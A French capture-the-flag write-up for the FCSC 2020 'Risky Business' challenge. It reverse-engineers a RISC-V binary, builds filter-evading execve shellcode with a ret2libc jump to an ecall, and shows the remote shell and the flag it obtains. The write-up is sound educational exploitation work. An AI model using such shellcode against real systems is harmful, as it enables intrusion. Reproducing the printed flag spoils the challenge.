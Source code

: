 ```yaml
---
title: "[FR] Write-up FCSC 2020 : Risky Business"
date: 2020-05-04T18:00:00+02:00
draft: false
tags:
- CTF
- FCSC
- FCSC 2020
---
```


# I - Intro
Le challenge est composé d'un simple binaire ELF RISC-V.
```
$ file risky-business
risky-business: ELF 64-bit LSB shared object, UCB RISC-V, version 1 (SYSV), dynamically linked, interpreter
/lib/ld-linux-riscv64-lp64d.so.1, for GNU/Linux 4.15.0, BuildID[sha1]=..., not stripped
```
Le but est d'exploiter ce binaire de manière à obtenir un shell sur la machine l'exécutant. On peut interagir avec lui via une simple connexion TCP que l'on peut établir avec `netcat`.
```
nc challenges1.france-cybersecurity-challenge.fr 4004
```
A première vue le binaire semble accepter des données via l'entrée standard avant de s'arrêter.

# II - Rétro ingénierie

Pour effectuer la rétro ingénierie de ce binaire, j'ai utilisé *Ghidra*. Sa dernière version (v9.1.2) ne supporte pas l'architecture RISC-V, j'ai donc dût compiler une version plus récente depuis les sources disponible sur la branche `master` du GitHub.

La décompilation faite par Ghidra est plutôt précise, après avoir renommé les variables correctement nous obtenons la fonction `main()` suivante :
```c
unsigned char main(){
  int input_buffer_len;
  unsigned char ret;
  byte c_2;
  int i;
  int j;
  int k;
  char input_buffer[72];
  long stk_check;
  byte c_1;

  stk_check = __stack_chk_guard;
  fgets(input_buffer,67,stdin);
  input_buffer_len = strlen(input_buffer);
  i = input_buffer_len + -1;
  j = input_buffer_len + -2;
  k = (input_buffer_len + -1) * 2;
  c_1 = (byte)input_buffer[input_buffer_len + -1] >> 4;
  while (-1 < k) {
    if ((k & 1) == 0) {
      c_2 = input_buffer[i] & 0xf;
      i = i + -1;
    }
    else {
      c_2 = (byte)input_buffer[j] >> 4;
      j = j + -1;
    }
    if ((((c_1 == 7) && (c_2 == 3)) || ((c_1 == 0 && (c_2 == 0)))) || ((c_1 == 0 && (c_2 == 10))))
    goto end;
    k = k - 1;
    c_1 = c_2;
  }
  (*(code *)input_buffer)(input_buffer);
end:
  ret = 0;
  if (stk_check != __stack_chk_guard) {
    ret = __stack_chk_fail();
  }
  gp = &__global_pointer$;
  return ret;
}
```

La fonction va donc lire une chaîne de caractères qui peut faire jusqu'à 67 octets sur l'entrée standard, un test va être effectué sur celle-ci, si elle passe le test, elle est interprétée comme du code et est exécutée, sinon le programme se termine.

Le test va lire la chaîne à partir de la fin, la séparer en section de 4 bits et vérifier que certains groupes prédéfinis de 4 bits ne se suivent pas.

On peut interpréter cela plus simplement : dans une représentation hexadécimale de la chaîne, les chiffres hexadécimaux suivants ne peuvent pas se suivre : 0x7 et 0x3; 0x0 et 0x0; 0x0 et 0xA.

# III - Écriture de la base du shellcode

Cet article de blog décrit comment écrire un shellcode pour l'architecture RISC-V : [https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html](https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html). Le but est donc de charger les arguments d'un syscall dans les registres `a0` à `a6` et le numéro du syscall dans le registre `a7` avant d'utiliser l'instruction `ecall` pour l'effectuer. Le syscall à appeler est le traditionnel `execve` (syscall n° 221 sous Linux en RISC-V) nous permettant d'obtenir un shell en executant `/bin/sh`.

```asm
addi	a0,s0,-96 + 20 # le shellcode est chargé sur la stack à s0-96 : s0-96+20 pointe donc sur le dword plus
                       # bas
slti	a1,zero,-1
slti	a2,zero,-1
li	a7,221
ecall
.dword 0x68732f2f6e69622f # représente la chaîne ascii `/bin//sh`
```

Ce shellcode de base est fonctionnel mais ne respecte pas les contraintes imposées par le binaire. La première suite interdite est la suite 0x00 dans l'instruction `li`. On peut la remplacer par une instruction `addi` en effectuant une addition avec le registre `a1` précédemment initialisé à 0.
```asm
addi	a0,s0,-96 + 20
slti	a1,zero,-1
slti	a2,zero,-1
addi	a7,a1,221
ecall
.dword 0x68732f2f6e69622f
```

La suite interdite suivante est présente dans la chaîne `/bin//sh`. Pour y remédier, on sépare le `dword` en deux `word` et l'on `NOT` celui comportant la suite interdite. Il faut juste adapter le shellcode pour *"réparer"* le `word` avant d'effectuer le syscall.
```asm
addi a3, s0, -96 + 28
lw   a4, 4(a3)
not  a4, a4
sw   a4, 4(a3)
addi a0, s0, -96 + 28
slti a1, zero, -1
slti a2, zero, -1
ecall
.word 0x6e69622f
.word 0x978cd0d0
```
Il est à noter que le shellcode est assemblé avec l'option `-march riscv64ic` permettant d'ajouter l'extension `C` du standard RISC-V, celle-ci permet d'avoir des instructions compressées de 2 octets au lieu de 4. Les instructions `lw` et `sw` du shellcode précédent ne font donc que 2 octets. Cette compression permet, en plus d'économiser de l'espace, de ne pas avoir d'octets nuls dans le shellcode.

L'instruction m'ayant posé le plus de problème est `ecall`. Celle-ci est indispensable pour pouvoir effectuer le syscall mais n'existe que sous une seule forme : `0x00000073`, elle contient donc 2 suites de demi octets interdites, 0x00 et 0x73. J'ai d'abord voulu essayer de mettre en place du *self-modifying code* en `NOT`ant l'instruction et en la réparant avant de l'exécuter. Cependant l'émulateur RISC-V de Qemu n'est pas encore au point et comme celui-ci *"traduis"* les instructions RISC-V en instructions x86, la traduction n'est pas re-effectuée après que l'instruction soit restaurée provoquant un crash du programme.

# IV - `ret2libc` pour effectuer le syscall

La solution opté pour effectuer le syscall est donc un `ret2libc`. Le but est de trouver une instruction `ecall` dans la libc et de `jmp` dessus. Comme le `Dockerfile` pour déployer le challenge est fournis, nous pouvons avoir exactement la même libc que celle du serveur où s'exécutera le shellcode final.

Bien que l'ASLR soit activée, Qemu ne semble pas en avoir une très bonne (ou pas du tout) en effet après de multiple tests il semble que l'adresse de base de la libc soit toujours la même : `0x4000827000`. Pour trouver cette adresse de base, il suffit de debugger le programme avec `gdb` et de lire l'adresse de `scanf` puis de la soustraire avec son adresse dans `libc.so`. Nous n'avons qu'a `grep`er la sortie de `objdump -D` sur la libc pour trouver un `ecall`.

Le `ecall` choisi est à l'adresse 0xb68 de la libc et peut donc être trouvé à l'adresse `0x4000827b68` dans l'espace d'adresse de notre binaire. Comme l'adresse contient beaucoup de suite de demi octets interdites, celle-ci est `NOT`ée avant d'être utilisée.

Voici donc le shellcode final :
```asm
addi a3, s0, -96+0x30
lw   a4, 12(a3)
not  a4, a4
sw   a4, 12(a3)
addi a0, s0, -96+0x38
slti a1, zero, -1
slti a2, zero, -1
addi a7, a1, 221
lw   a4, 0(a3)
lw   a5, 4(a3)
not  a4, a4
not  a5, a5
slli a5, a5, 32
or   a4, a5, a4
jr   -4(a4)
.word 0xff7d8493
.word 0xffffffbf
.word 0x6e69622f
.word 0x978cd0d0
```

Comme l'instruction `jr` nécessite un offset par rapport à l'adresse contenue dans le registre, celui-ci ne pouvait donc pas être 0 sous peine de comporter beaucoup de suites de demi octets interdites. Le sot se fait donc avec un offset de -4 et l'adresse à été adaptée en conséquence.

# V - Exploitation finale

Après avoir assemblé le shellcode et l'avoir testé en local, on peut l'exécuter sur le serveur.
```sh
$ cat shellcode.bin - | nc -v challenges1.france-cybersecurity-challenge.fr 4004
Warning: inverse host lookup failed for 51.68.117.85: Unknown host
challenges1.france-cybersecurity-challenge.fr [51.68.117.85] 4004 (?) open
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
flag
risky-business
run.sh
cat flag
FCSC{d79704401bf7c58ca46f3711a9a8c8207d0c4ce7d80fd0dc41df6d5e44b3ddaf}
```
